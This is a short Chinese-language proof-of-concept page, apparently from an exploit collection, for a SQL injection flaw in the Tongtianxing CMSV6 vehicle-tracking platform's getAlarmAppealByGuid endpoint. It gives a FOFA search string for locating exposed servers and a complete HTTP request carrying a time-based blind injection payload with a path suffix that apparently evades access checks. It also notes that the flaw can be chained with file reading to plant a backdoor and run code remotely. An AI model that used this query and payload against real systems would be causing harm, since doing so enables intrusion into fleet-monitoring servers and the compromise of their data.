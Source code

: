 # 通天星CMSV6车载定位监控平台getAlarmAppealByGuid存在SQL注入漏洞

该漏洞是由于通天星CMSV6车载定位监控平台 /alarm_appeal/getAlarmAppealByGuid 接口处未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。该漏洞可配合任意文件读取获取网站绝对路径写入后门文件进行远程代码执行。

## fofa

```java
body="/808gps/"
```

## poc

```java
POST /alarm_appeal/getAlarmAppealByGuid;downloadLogger.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Encoding: gzip, deflate
 
guid=1') AND (SELECT 3904 FROM (SELECT(SLEEP(5)))PITq) AND ('qhqF'='qhqF
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408282321708.png)